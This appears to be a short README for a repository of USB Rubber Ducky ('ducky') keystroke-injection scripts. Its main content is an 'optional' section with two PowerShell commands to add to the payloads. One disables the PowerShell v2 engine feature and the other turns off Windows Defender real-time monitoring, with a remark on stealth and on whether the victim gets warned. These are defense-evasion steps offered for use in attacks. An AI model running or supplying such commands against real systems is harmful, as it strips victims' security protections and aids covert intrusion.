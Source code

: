 # ducky_scripts
Random ducky scripts that have been pulled together.
--more to be added later.
# optional
Add these to the script to disable powershell v2 engine protections and windows defender realtime protection, This is less stealthy since the user might be warned of windows defender being disabled.

Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
Set-MpPreference -DisableRealtimeMonitoring $true
